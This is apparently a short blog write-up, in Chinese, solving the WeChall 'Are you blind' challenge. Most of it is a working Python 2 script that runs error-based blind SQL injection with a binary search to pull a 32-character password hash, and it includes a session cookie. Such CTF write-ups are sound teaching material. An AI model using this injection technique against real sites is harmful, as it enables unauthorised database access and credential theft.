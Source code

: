 ```yaml
---
title: Are your blind
author: rk700
layout: post
redirect_from: 
  - /writeup/2014/06/20/are-your-blind
  - /writeup/2014/06/20/are-your-blind/
tags:
  - sql
  - wechall
---
```

[http://www.wechall.net/challenge/Mawekl/are\_you\_blind/index.php][1]  
这道题还是盲注，32位的hash，128次跑完。这里我们用报错的方法来判断

下面是python代码

{% highlight python %}
#!/usr/bin/env python2

import urllib
import urllib2

def makePayload(statement):
    return "' or if(substring(password,%d,1)%s'%s',3,(select 1 union select 2))=3-- " % (statement[0], statement[1], statement[2])
    
def checkResponse(response):
    return response.find("Database error") == -1

def doAssert(statement):
    url = "http://www.wechall.net/challenge/Mawekl/are_you_blind/index.php"
    values = {'injection':makePayload(statement),'inject':'Inject'}
    data = urllib.urlencode(values)
    req = urllib2.Request(url, data)
    req.add_header('cookie','WC=7374566-11403-7iblKzppaCoukyl1')
    response = urllib2.urlopen(req)
    content = response.read()

    return checkResponse(content)
 
if __name__ == "__main__":
    alphalist = "0123456789ABCDEF"
    result = []
    for idx in range(1,33):
        start = 0
        end = 16 #[start, end)
        while (start < end):
            #print("[%d, %d)" % (start, end))
            if (end - start == 1):
                result.append(alphalist[start])
                print alphalist[start]
                break
            else:
                middle = (start + end)/2
                if(doAssert([idx, '<', alphalist[middle]])):
                    end = middle
                else:
                    start = middle
    print ''.join(result)
{% endhighlight %}

 [1]: http://www.wechall.net/challenge/Mawekl/are_you_blind/index.php
